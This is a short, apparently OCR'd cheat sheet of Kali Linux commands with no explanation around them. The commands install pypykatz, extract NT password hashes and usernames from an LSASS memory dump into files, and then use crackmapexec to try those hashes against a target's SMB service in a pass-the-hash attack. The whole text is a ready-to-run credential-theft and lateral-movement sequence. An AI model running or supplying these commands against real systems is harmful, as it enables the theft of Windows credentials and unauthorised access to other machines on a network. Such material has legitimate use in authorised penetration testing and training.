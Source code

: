 
```bash - kali
pip3 install pypykatz
```

```bash - kali
pypykatz lsa minidump lsass.DMP
```

```bash - kali
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes 
```

```bash - kali
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users 
```

```bash - kali
crackmapexec smb $TARGET -u $DOMAIN_NAME/$USERS_FILE -H $DOMAIN_NAME/$HASHES_FILE
```